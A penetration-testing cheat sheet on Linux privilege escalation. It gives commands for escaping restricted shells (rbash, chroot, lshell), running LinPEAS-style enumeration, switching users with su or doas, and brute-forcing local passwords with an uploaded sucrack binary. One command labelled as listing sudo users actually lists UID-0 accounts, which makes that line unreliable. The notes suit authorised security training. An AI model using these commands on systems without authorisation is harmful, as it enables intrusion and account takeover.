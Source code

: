 # __Elevate privileges on Linux__
>Author: Pieter Miske
---
### __Escape restricted environments:__
The following techniques are examples and can be used to escape a restricted environment like rbash and chroot\. 
>Multiple escape methods can be foound [here](https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/)
- Check GTFOBins if there is an available binary that can help you to escape \(e\.g\. Less, Vim, Nmap\)
- Use programming language \(if accessible\)
- Break out via SSH before restricted shell is initialized: `ssh <username>@<target ip> –t "/bin/sh"`
- Bypass restricted shell via SSH by loading bash with no profile: `ssh <username>@<target ip> –t "bash --noprofile"`
- Escape restricted shell vulnerability:
	- 1\. `BASH_CMDS[a]=/bin/sh;a`
	- 2\. `export PATH=$PATH:/bin/`
	- 3\. `export PATH=$PATH:/usr/bin`
- Search for sensitive files, custom binaries or services \(e\.g mysql\) that can help you escape
- Escape Lshell: `echo os.system('/bin/bash')`

### __Automated privesc enumeration:__
- [Linux\-smart\-enumeration](https://github.com/diego-treitos/linux-smart-enumeration): for more verbose output use \-l2\): `./lse.sh -l1`
- [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS): `./linpeas.sh -a | tee output.txt`

### __Abuse users & groups:__
#### _Identify interesting users:_
- 1\. Check what other interesting users are on the system:
	- Current logged in users: `who`
	- Previous logins: `last`
	- Users with sudo rights: `grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}'`
- 2\. If user is part of a exploitable group or can run/access a service as root, try to compromise that user account\. 

#### _Login as another user account:_
- Login with creds:
	- Escalate to another user: `su <username>`
	- If "su" is unavailable: `doas -u <username> /bin/sh`
- Bruteforce passwords: Sucrack is a multithreaded Linux/UNIX tool for brute-force cracking local user accounts via su. 
	- 1\. Upload the compiled version of [sucrack](https://github.com/hemp3l/sucrack) and a passwordlist to the target system\. 
	- 2\. Start bruteforce authentication attempts via su \(default is root user\): `./sucrack -w <threads (e.g. 5)> (-u <username>) passwordfile.txt`
